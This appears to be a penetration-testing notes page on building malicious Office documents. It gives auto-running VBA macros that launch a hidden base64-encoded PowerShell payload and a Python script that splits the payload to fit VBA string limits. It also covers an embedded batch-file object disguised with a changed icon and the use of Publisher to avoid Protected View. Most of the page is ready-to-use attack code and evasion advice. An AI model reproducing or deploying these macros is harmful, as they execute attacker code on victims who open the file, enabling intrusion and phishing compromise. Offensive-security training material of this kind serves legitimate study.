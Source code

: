 # Macros

### Macros

We must save the containing document as either .docm or the older .doc format, which supports embedded macros, but we can't use the .docx format because it does not support them.

### Microsoft Word Macro Skeleton

View -> Macros -> Macros in Document -> Name -> Create

```visual-basic
Sub AutoOpen()
    RevMacro
End Sub

Sub Document_Open()
    RevMacro
End Sub

Sub RevMacro()
    Dim Str As String
    <payload here>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

Functions Purposes:

* AutoOpen() = Open when a new document is opened
* Document\_Open() = Executed when Reopened
* CreateObject("Wscript.Shell").Run Str = Runs the payload
* Save As: Word 97-2003 Document

Save the document as `.docm` (Word Macro-Enabled Document) or older `.doc` (Word 97-2003 Document) and **NOT** as `.docx` format

💡 We can use the base64-encoded PowerShell payload of `MSFvenom` when generating a malicious HTA application.

{% hint style="info" %}
VBA has a 255-character limit for literal strings to solve this problem we can split the PowerShell command into multiple lines via a Python script:
{% endhint %}

```python
str = "powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>"
n = 50
print(f'Str = "{str[:50]}"')
for i in range(50, len(str), n):
    print(f'Str = Str + "{str[i:i+n]}"')
```

```visual-basic
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
	Dim Str As String
	
	Str = "powershell.exe -nop -w hidden -e <SPLITTED_BASE64_PAYLOAD>"
	Str = Str + "<SPLITTED_BASE64_PAYLOAD>"
	...
	CreateObject("Wscript.Shell").Run Str
End Sub
```

> **Note**: the macro security warning only re-appears if the name of the document is changed.

* Embedding/Linking Object using Batch file:
* Word or Excel:
* _Insert > Object > Create from File_
* Import a Batch File

```batch
START powershell.exe -nop -w hidden -e <BASE64_PAYLOAD>
```

💡 **Tip**: _Display as icon > Change Icon_

* [**Protected View**](https://support.microsoft.com/en-us/topic/what-is-protected-view-d6f09ac7-e6b9-4495-8e43-2bbcdbcb6653?ui=en-us\&rs=en-us\&ad=us) Bypass: a sandbox feature that disables all editing and modifications in the document + blocks the execution of macros or embedded objects.

Malicious office docs are effective when served locally but when served from the Internet, i.e, an email download link, **Protected View** is enabled. However, **Microsoft Publisher** does not enable it so use Publisher instead.
